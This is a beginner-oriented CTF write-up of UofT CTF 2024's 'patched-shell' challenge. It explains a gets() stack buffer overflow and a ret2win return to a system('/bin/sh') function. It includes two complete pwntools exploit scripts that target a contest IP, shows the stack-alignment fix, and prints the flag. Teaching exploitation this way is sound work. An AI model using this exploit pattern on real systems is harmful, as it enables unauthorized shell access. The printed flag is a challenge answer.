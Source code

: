 ```yaml
---
layout: writeup
category: UofT-CTF-2024
chall_description:
points: 250
solves: 199
tags: pwn ret2win buffer-overflow
date: 2024-1-15
comments: false
---
```


Okay, okay. So you were smart enough to do basic overflow huh...  

Now try this challenge! I patched the shell function so it calls system instead of execve... so now your exploit shouldn't work! bwahahahahaha  

Note: due to the copycat nature of this challenge, it suffers from the same bug that was in basic-overflow. see the cryptic message there for more information.  

Author: drec  
`nc 34.134.173.142 5000`  
[patched-shell](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/UofT-CTF-2024/patched-shell)  

---

### Disclaimer
Most of this challenge was pretty much identical to basic-overflow. Skip towards the end if you already solved basic-overflow or read a writeup for it.  

Since this challenge is so simple, this writeup is intended primarily for complete beginners to pwn!  

We're given an ELF binary file. It is essentially a Linux executable, similar to .exe for Windows. We can decompile this with Ghidra, a powerful reverse-engineering tool. Download it if you don't have it!  

In Ghidra, on the left sidebar, we can open the Functions folder to see what sort of functions this program contains. Most of it is irrelevant, as some functions used for program functionality are also listed. However, there are two unusual functions that seem to be user-created. `main` and `shell`.  

Clicking on each allows us to see their decompilation. Here's `main`:  

```c
undefined8 main(void)

{
  char local_48 [64];
  
  gets(local_48);
  return 0;
}
```

Let's first examine main. The main function simply allocates 64 bytes for a character array, i.e. a string. It then calls gets() to receive user input for the variable. For people experienced with pwn, this is immediately a major red flag. gets() is vulnerable to buffer overflow. That is, it can receive more input than it should. So, even though only 64 bytes are allocated for the character array, the program could read in more than 64 bytes into the variable!  

Since the variable is located on the stack, which is essentially an area of the program's memory where variables and things like that are stored, it will *overflow* onto the stack, overwriting the memory of the program. Crucially, the return address is stored on the stack.  

The return address is essentially the location in the program that main() will return to after finishing and hitting the `return` statement. This is important, because if we can overwrite this return address, we can control what function main() executes next!  

Now let's take a look at shell.

```c
void shell(void)

{
  system("/bin/sh");
  return;
}
```

So this seems to be what's changed. But... doesn't this still pop a shell? Hm. Let's try thes same solution as in basic-overflow, i.e. overriding the return address with the address of the shell function.  

```py
from pwn import *
import pwnlib.util.packing as pack

elf = ELF("./patched-shell")
context.binary = elf
context.log_level = "DEBUG"
context(terminal=["tmux","split-window", "-h"])

# p = process('./patched-shell')
# gdb.attach(p)

p = remote('34.134.173.142', 5000)


# p.sendline(
#     cyclic(1024)
# )

offset = cyclic_find('saaa')
shell = pack.p64(elf.symbols['shell'])
payload = offset*b'A' + shell
p.sendline(payload)

p.interactive()
```

Ignore the top half -- it's all just setup.  

In the bottom half, there is first a commented out line of a 'cyclic(1024)'. All this does is send a string to the program that enables us to find the offset of the return address. We know what the return address becomes (after it is opened in gdb with `gdb.attach(p)`) by entering 'continue' and looking at the RSP register, i.e. the stack pointer, which shows that it is the string `saaa` in the cyclic.  

Thus, our offset can be found using pwntool's `cyclic_find()` function. The address of the shell function can be found in the ELF's symbols, and our payload can be contructed as `offset*b'A' + shell`. Note that the address of the shell function must be 'packed' into little endian and x64 format. I would recommend Googling those two if you are unaware of what they are.  

However, this doesn't actually work. I wasn't sure why it wasn't working, and spent 30 minutes just trying to look for a solution online. Turns out I'm stupid! The stack offset just becomes unaligned if we return to the first instruction of shell(), i.e. `push rbp`, so it will work just fine if we add 1 to the address of shell, thus returning to the next instruction instead and avoiding the push instruction.  

```py
from pwn import *
import pwnlib.util.packing as pack

elf = ELF("./patched-shell")
context.binary = elf
context.log_level = "DEBUG"
context(terminal=["tmux","split-window", "-h"])

# p = process('./patched-shell')
# gdb.attach(p)

p = remote('34.134.173.142', 5000)


# p.sendline(
#     cyclic(1024)
# )

offset = cyclic_find('saaa')
shell = pack.p64(elf.symbols['shell'] + 1) # only change
payload = offset*b'A' + shell
p.sendline(payload)

p.interactive()
```

Once we have our payload, we can send it to the remote service, pop a shell, and `ls` --> `cat flag` gives us our flag!  

    uoftctf{patched_the_wrong_function}